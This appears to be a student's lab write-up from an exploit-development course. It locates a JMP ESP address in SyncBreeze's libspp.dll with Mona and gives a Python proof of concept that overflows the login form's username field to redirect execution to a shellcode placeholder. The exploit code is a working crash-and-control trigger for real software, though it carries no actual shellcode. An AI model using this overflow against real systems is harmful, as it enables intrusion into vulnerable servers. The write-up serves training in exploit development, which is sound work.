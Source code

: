 ### 11.2.7.1 Exercises
#### 1. Locate the JMP ESP that is usable in the exploit.

Use Mona python script to search view the libraries for synbreeze.

![image-20200704165430135](.11.2.7.1.assets/image-20200704165430135.png)

Selected the libspp.dll and searched it for a JMP ESP instruction.

![image-20200704165526764](.11.2.7.1.assets/image-20200704165526764.png)

Verified that this memory address does have JMP ESP by following it in the disassembler:

![image-20200704165612759](.11.2.7.1.assets/image-20200704165612759.png)

#### 2. Update your PoC to include the discovered JMP ESP, set a breakpoint on it, and follow the execution to the placeholder shellcode.

PoC Code:

```python
#!/usr/bin/python
import socket

try:        
    print "\nSending evil buffer....."

    filler = "A" * 780
    eip  = "\x83\x0c\x09\x10"
    offset = "C" * 4
    codebuffer = "D" * (1500 -len(filler) - len(eip) - len(offset))
    inputBuffer = filler + eip + offset + codebuffer

    content = "username=" + inputBuffer + "&password=A"

    buffer = "POST /login HTTP/1.1\r\n"
    buffer += "Host: 192.168.216.10\r\n"
    buffer += "User-Agent: Mozilla/5.0 (X11; Linux_86_64; rv:52.0) Gecko/20100101 Firefox/52.0\r\n"
    buffer += "Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8\r\n"
    buffer += "Accept-Language: en-US,en;q=0.5\r\n"
    buffer += "Referer: http://192.168.216.10/login\r\n"
    buffer += "Connection: close\r\n"
    buffer += "Content-Type: application/x-www-form-urlencoded\r\n"
    buffer += "Content-Length: "+str(len(content))+"\r\n"
    buffer += "\r\n"

    buffer += content

    s = socket.socket (socket.AF_INET, socket.SOCK_STREAM)
        
    s.connect(("192.168.216.10", 80))
    s.send(buffer)
        
    s.close()
    print "\Done!"
except:
    print "\nCould not connect!"
```

Ran code, execution paused at breakpoint with EIP pointing to our JMP ESP command:

![image-20200704170550371](.11.2.7.1.assets/image-20200704170550371.png)

Stepped into JMP ESP to show our next instruction is at our shellcode placeholder (DDDD)

![image-20200704170813874](.11.2.7.1.assets/image-20200704170813874.png)